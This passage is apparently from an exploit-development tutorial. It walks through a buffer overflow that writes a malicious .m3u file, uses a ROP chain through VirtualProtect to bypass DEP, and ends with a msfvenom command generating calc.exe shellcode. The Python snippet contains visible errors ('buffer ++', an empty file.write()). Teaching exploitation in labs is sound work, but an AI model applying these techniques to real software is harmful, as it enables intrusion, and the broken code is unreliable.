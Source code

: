 ```python
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

As we Step Over till the end of `VirtualProtect`, `VirtualProtect` executes with our parameters and we arrive at the return address - `POP EBP`.

![img](images/30.png)

![img](images/31.png)

As we step over the `POP EBP`, the address to `VirtualProtect` is popped off the stack, as it is no longer required. Then, we bypass the `RETN` and insert the final address in the ROP chain into the `EIP`. The execution flow will be transferred to the stack through the `JMP ESP` instruction.

![img](images/32.png)

As we now step over, we can see that there is no more
access violation. We can execute data on the stack.

![img](images/33.png)

Let's produce the `msfvenom` calc shellcode and insert it into the exploit. This time, we will not detect bad characters (we wish to avoid `0x00` and CRLFs, and `0x1a` was discovered to be a bad character as well).

```bash
msfvenom -p windows/exec cmd=calc.exe -b "\x00\x0a\x0d\x1a" -f c
```
